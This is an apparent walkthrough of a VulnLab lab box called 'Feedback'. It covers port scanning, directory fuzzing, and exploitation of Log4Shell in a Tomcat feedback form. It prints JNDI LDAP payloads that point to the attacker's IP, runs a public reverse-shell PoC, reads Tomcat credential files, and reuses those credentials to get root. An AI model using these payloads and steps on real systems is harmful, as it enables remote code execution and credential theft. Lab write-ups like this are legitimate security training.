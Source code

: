 ```yaml
---
title: VulnLab Feedback
description: VulnLab Feedback
image:
  path: feedback.png
categories:
- VulnLab Boxes
layout: post
media_subpath: /assets/posts/labs/vulnlab/boxes/feedback
tags:
- vulnlab-boxes
---
```

# Feedback
- Linux
## Recon
```
└─$ rustscan -a 10.10.115.103 -r 1-65535 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
With RustScan, I scan ports so fast, even my firewall gets whiplash 💨

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.115.103:22
Open 10.10.115.103:8080
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-08 18:56 +05
Initiating Ping Scan at 18:56
Scanning 10.10.115.103 [4 ports]
Completed Ping Scan at 18:56, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:56
Completed Parallel DNS resolution of 1 host. at 18:56, 0.07s elapsed
DNS resolution of 1 IPs took 0.08s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 18:56
Scanning 10.10.115.103 [2 ports]
Discovered open port 22/tcp on 10.10.115.103
Discovered open port 8080/tcp on 10.10.115.103
Completed SYN Stealth Scan at 18:56, 0.12s elapsed (2 total ports)
Nmap scan report for 10.10.115.103
Host is up, received echo-reply ttl 63 (0.098s latency).
Scanned at 2024-12-08 18:56:21 +05 for 0s

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)

```
```
└─$ nmap -sC -sV -p22,8080 10.10.115.103     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-08 18:56 +05
Nmap scan report for 10.10.115.103
Host is up (0.10s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:f1:17:4c:66:a6:3e:bb:b3:8e:10:1f:23:ba:fe:1d (RSA)
|   256 75:a5:4f:78:55:45:0c:2a:e9:cd:1d:6b:87:a3:e8:de (ECDSA)
|_  256 f2:04:a6:40:e3:e3:f8:4e:83:85:19:f7:38:24:f2:0a (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.90 seconds

```

We see Tomcat running on port `8080`

![](1.png)

Fuzzing the directories results in `feedback` endpoint 
```
└─$ gobuster dir -u http://10.10.115.103:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.115.103:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/feedback             (Status: 302) [Size: 0] [--> /feedback/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]

```
## Root
We can check the `feedback` application 

![](2.png)

Sending requests results in message `You request has been logged.`

![](3.png)

Open request in `Burp` and play with parameters. Sending `{` in any of the parameters (`name` or `feedback`) results in java error.

![](4.png)

Seems like it could be vulnerable to [log4j](https://raxis.com/blog/log4j-exploit/). After few attempts, we managed to exploit `log4j` by sending `$%7bjndi:ldap://10.8.4.147:66665/log4j%7d` payload

![](5.png)

![](6.png)

Now, let's get a shell. Follow the this [repo](https://github.com/kozmer/log4j-shell-poc). Download `Java 8 JDK` from this [link](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). We need `jdk-8u20` (Need account to download)

![](7.png)

Now according to repo, we need to extract it
```
└─$ tar -xf jdk-8u20-linux-x64.tar.gz                                                                                                      
```                                                                                                                                                                                                                                     
```
└─$ ./jdk1.8.0_20/bin/java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)

```

Then let's run `PoC`
```
└─$ python3 poc.py --userip 10.8.4.147 --webport 8000 --lport 6666

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.8.4.147:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389

```

If you have issues with error `library initialization failed - unable to allocate file descriptor table - out of memory`, add the lines below to `/etc/security/limits.conf` on your attack box and reboot. It happens due to when the maximum number of open file descriptors is too low.
```
*         soft    nofile      65535
*         hard    nofile      65535
```

Now send the payload from `PoC` to `feedback`. You can simply encode whole payload

![](8.png)

And we receive our shell

![](9.png)

Now let's enumerate the box. Note, that there is no `user.txt`. We find tomcat creds in `/opt/tomcat/conf/tomcat-users.xml`
```
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="<REDACTED>" roles="manager-gui"/>
  <user username="robot" password="<REDACTED>" roles="manager-script"/>

```

To me make it easier, elevate the shell by running `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `script /dev/null -c bash`. Creds don't work for user `ubuntu`, but `su root` works
```
tomcat@ip-10-10-10-7:/$ su root
su root
Password: <REDACTED>

root@ip-10-10-10-7:/# 
```

## Notes
There are nice blogs explaining log4j vulnerability:
- https://www.intruder.io/blog/log4shell-cve-2021-44228-what-it-is-and-how-to-detect-it
- https://pentest-tools.com/network-vulnerability-scanning/log4j-vulnerability-scanner-cve-2021-44228
- https://vuln.dev/lab-exploiting-log4shell-cve-2021-44228/